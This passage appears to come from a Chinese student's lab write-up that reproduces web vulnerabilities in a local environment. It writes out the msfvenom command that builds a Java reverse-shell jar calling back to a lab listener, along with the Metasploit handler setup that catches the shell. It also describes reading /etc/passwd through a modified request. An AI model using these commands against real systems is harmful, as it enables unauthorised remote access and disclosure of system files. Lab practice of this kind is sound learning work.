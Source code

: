 ![image-20231111165545185](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111165545185.png)

## 2、上传WebShell（或反弹shell），并通过WebShell （或反弹shell）执行whoami命令

 在kali里面用msfvenom 工具生成一个jar包

```
msfvenom -p java/shell_reverse_tcp lhost=192.168.232.137 lport=1314 -f jar >~/1.jar
```

然后启动 msf 监听

先输入`msfcomsole`

进入msf之后输入下面内容：

```
msfconsole
# 设置监听模块
use exploit/multi/handler
# 设置 payload
set payload java/shell_reverse_tcp
# 设置监听 IP 地址（kali的ip地址）
set lhost 192.168.232.137
# 设置监听端口
set lport 1314
# 执行
exploit
```

![image-20231111182607674](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111182607674.png)

然后上传刚才做的jar包点击submit：

![image-20231111182521683](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111182521683.png)

这时回去看我们的kali，可以看到已经成功反弹shell：（输入whoami）

![屏幕截图 2023-11-11 175606](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-11 175606.png)

# 实验七

> 官方文档提到了要初始化，但是我这里的情况是初始化之后下面的漏洞用不了（也可能是我操作问题）。下面的复现过程我是在没有注册的情况下完成的。

## 1、漏洞复现

启动环境后访问`192.168.232.131:5014`，用burp抓包并发送到repeater模块（也可以直接访问页面不抓包），然后更改请求包如下：

![image-20231111212041243](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111212041243.png)

可以看到法宝之后成功读取文件`/etc/passwd`

接着更改请求包如下：
